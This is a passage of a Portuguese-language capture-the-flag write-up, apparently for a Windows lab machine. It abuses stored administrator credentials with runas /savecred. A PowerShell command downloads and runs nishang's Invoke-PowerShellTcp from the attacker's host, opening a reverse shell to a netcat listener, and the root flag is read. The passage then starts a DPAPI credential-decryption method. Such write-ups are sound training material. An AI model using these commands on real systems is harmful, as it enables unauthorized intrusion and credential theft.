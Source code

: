    Podemos confirmar a questão das credenciais armazenadas usando o seguinte comando: 

```powershell
PS C:\Users\security> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

    Com a senha do administrador armazenada, podemos usar o `runas` para pegar uma shell com o **Invoke-PowerShellTcp.ps1** do nishang.

    Para que a shell funcione, precisamos adicionar o seguinte comando no final do arquivo: 

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress MACHINE_IP -Port 4444
```

     Com a shell alterada, executamos o privesc

> Comando Runas

```powershell
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.82/Invoke-PowerShellTcp.ps1')"
```

> Root Flag

```powershell
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.82] from (UNKNOWN) [10.129.91.76] 49162
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>cd c:\users\administrator\desktop
PS C:\users\administrator\desktop> type root.txt
1c7ea0b913db5094cdbcde9a9f744a07
PS C:\users\administrator\desktop>
```

### Método Dois

    O segundo método utilizará do DPAPI para fazer a escalação.

    Primeiramente, precisamos encontrar o SID, o arquivo das masterkeys e o de credentials.

> SID e Masterkey - Locais Possíveis

```bash
C:\Users\USER\AppData\Roaming\Microsoft\Protect\
C:\Users\USER\AppData\Local\Microsoft\Protect\
```

    Neste CTF, podemos encontrar o SID entrando no diretório `AppData\Roaming\Microsoft\Protect` do usuário "security".
